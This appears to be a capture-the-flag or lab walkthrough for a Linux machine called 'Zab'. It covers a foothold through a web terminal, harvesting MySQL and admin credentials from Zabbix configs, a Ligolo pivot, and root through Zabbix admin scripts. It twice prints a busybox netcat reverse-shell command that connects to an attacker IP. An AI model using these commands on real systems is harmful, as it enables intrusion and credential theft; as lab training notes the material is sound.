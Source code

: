 # Zab Walkthrough (Linux)

## Initial Foothold

- Open ports: 22, 80, 6789
- Port **6789** has a terminal (CLI GUI) that allows remote command execution via the web interface.
- Obtained reverse shell using:
  ```bash
  busybox nc 192.168.45.194 22 -e bash
  ```
- Port **80** served a web application called **Zabbix**.
- Ran `linpeas.sh` and found that Zabbix runs via:
  - `/usr/sbin/zabbix*`
  - `/etc/zabbix/*`
- Retrieved MySQL credentials from Zabbix config files and accessed the MySQL service.
- Found **Admin credentials**, cracked the hash.
- Discovered via `ss -tnlup` that ports `10050` and `10051` are open locally (Zabbix agent and server).
- Inspected `/etc/zabbix/apache.conf` and found `/usr/share/zabbix/ui/conf/maintenance.inc.php`.
- Using this insight, setup **Ligolo** proxy.
- Accessed Zabbix login portal via port 80 + proxy and authenticated as **Admin**.

## Privilege Escalation

- In Zabbix web portal:
  - Go to `Administration → Scripts`
  - Created a new script to run:
    ```bash
    busybox nc 192.168.45.194 22 -e bash
    ```
  - Navigate to `Monitoring → Hosts`
  - Selected target, then `Scripts`, and ran the reverse shell payload.
